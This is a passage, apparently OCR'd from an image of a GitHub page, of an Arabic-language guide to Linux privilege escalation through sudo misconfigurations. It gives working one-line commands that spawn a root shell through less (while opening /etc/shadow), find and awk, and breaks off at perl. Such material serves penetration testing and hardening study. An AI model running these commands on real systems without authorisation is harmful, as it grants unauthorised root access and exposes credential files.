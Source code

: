 🔸 بعض الأوامر مثل `less` و `vi` تسمح بتنفيذ أوامر داخلها. إذا كان لديك الصلاحيات التالية:

```bash
(ALL) NOPASSWD: /usr/bin/less
```

🔹 يمكنك تشغيل `less`، ثم فتح **shell root** كالتالي:

```bash
sudo less /etc/shadow
!bash
```

☠️ **الخطورة**: يمكنك تشغيل أوامر بصلاحيات `root` من داخل `less`.

---

# 🔹 **4. استغلال `sudo` باستخدام `find`**

🔸 إذا كان `sudo -l` يعرض:

```bash
(ALL) NOPASSWD: /usr/bin/find
```

🔹 يمكنك فتح shell كـ root باستخدام:

```bash
sudo find . -exec /bin/bash \;
```

☠️ **الخطورة**: `find` يسمح بتنفيذ أوامر، مما يسهل الحصول على صلاحيات `root`.

---

# 🔹 **5. استغلال `sudo` باستخدام `awk`**

🔸 إذا كان لديك الصلاحية لتشغيل `awk`:

```bash
(ALL) NOPASSWD: /usr/bin/awk
```

🔹 يمكنك تشغيل shell بصلاحيات root:

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

☠️ **الخطورة**: `awk` يمكنه تنفيذ أوامر داخل `BEGIN`.

---

# 🔹 **6. استغلال `sudo` باستخدام `perl`**

🔸 إذا كان لديك إذن تشغيل `perl`:

```bash
(ALL) NOPASSWD: /usr/bin/perl
```
